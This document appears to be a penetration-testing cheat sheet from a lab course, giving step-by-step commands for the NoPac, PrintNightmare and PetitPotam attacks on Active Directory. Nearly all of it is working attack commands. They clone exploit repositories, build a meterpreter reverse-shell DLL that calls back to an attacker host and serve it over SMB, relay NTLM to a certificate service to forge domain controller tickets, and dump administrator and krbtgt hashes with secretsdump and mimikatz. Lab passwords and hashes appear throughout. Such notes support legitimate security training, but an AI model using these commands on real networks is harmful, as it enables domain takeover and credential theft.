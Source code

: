 ## **NoPac (SamAccountName Spoofing)**
1. Cloning the NoPac Exploit Repo: `git clone https://github.com/Ridter/noPac.git`
2. Check if the system is vulnerable using a scanner: `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`
3. Running NoPac & Getting a Shell: ` sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap`
4. Using noPac to DCSync the Built-in Administrator Account: `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator`
## **PrintNightmare**
1. Cloning the Exploit: `git clone https://github.com/cube0x0/CVE-2021-1675.git`
2. Install cube0x0's Version of Impacket:
    1. `pip3 uninstall impacket`
    2. `git clone https://github.com/cube0x0/impacket`
    3. `cd impacket`
    5. `python3 ./setup.py install`
3. Enumerating for MS-RPRN: `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'`
4. Generating a DLL Payload: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll`
5. Creating a Share with smbserver.py: `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll`
6. Configuring & Starting MSF multi/handler:
    1. `use exploit/multi/handler`
    2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    3. `set LHOST 172.16.5.225`
    4. `set LPORT 8080`
    5. `run`
7. Running the Exploit: `sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'`
## **PetitPotam (MS-EFSRPC)**
1. Starting ntlmrelayx.py: `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`
2. Running PetitPotam.py: `python3 PetitPotam.py 172.16.5.225 172.16.5.5  `
3. Catching Base64 Encoded Certificate for DC01: `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`
4. Requesting a TGT Using gettgtpkinit.py: `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache`
5. Setting the KRB5CCNAME Environment Variable: `export KRB5CCNAME=dc01.ccache`
6. Using Domain Controller TGT to DCSync: `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`
7. Confirming Admin Access to the Domain Controller: `crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf`
**Submitting a TGS Request for Ourselves Using getnthash.py is an alternate route once we have the TGT for our target (step 4)**
5. Using the tool getnthash.py from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (PAC) which contains the NT hash for the target.: `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$`
6. Using Domain Controller NTLM Hash to DCSync: `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba`
**Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.**
4. Requesting TGT and Performing PTT with DC01$ Machine Account: `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt`
5. Confirming the Ticket is in Memory: `klist`
6. Performing DCSync with Mimikatz:
    1. `.\mimikatz.exe`
    2. `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt`